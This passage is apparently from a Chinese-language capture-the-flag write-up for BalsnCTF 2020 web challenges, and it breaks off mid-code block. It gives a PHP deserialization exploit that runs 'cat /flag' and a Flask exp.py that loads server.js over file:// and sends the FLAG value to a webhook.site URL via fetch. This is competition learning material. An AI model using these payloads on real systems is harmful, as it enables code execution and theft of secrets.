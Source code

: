 这样new_cmd就是protect属性了

最后的exp:

```php
class L5D_Upload{
    public $padding;
    public function __construct()
    {
        $this->padding = new L5D_ResetCMD();
    }

}
class L5D_ResetCMD {

    public $padding;
    protected $new_cmd = "cat /flag";
    public function __construct()
    {
        $this->padding=new L5D_Command();
    }

}
class L5D_Command{
}
$a=str_replace('s:10:"'."\x00*\x00",'S:10:"\00\2a\00',serialize(new L5D_Upload()));
echo urlencode ($a);

```



## the woven web

看了[Super⚔️Blue](https://github.com/Super-Guesser/ctf/blob/master/BalsnCTF2020/web/The%20Woven/the_woven_web.py) 的wp，只能说一句牛逼

其实原理很简单：让浏览器自动下载一个文件，然后file协议访问那个文件，那个文件就可以引用server.js，于是就有flag的值了

exp.py

```python
from flask import Flask
app = Flask(__name__)

@app.route('/index.html')
def hello_world():
    r = """
    <html>
    <head>
        <script>
            function require(a){
                if(a=="express"){return ()=>{return {get:function(){},listen:function(){}}}
                }
                if(a=="redis"){
                    return {createClient:function(){}}
                }
                if(a=="fs"){
                    return {existsSync:function(){}};
                }
            }
        </script>
        <script src="../app/server.js">
        </script>
        <script>
            fetch("https://webhook.site/X?a="+FLAG);
        </script>
```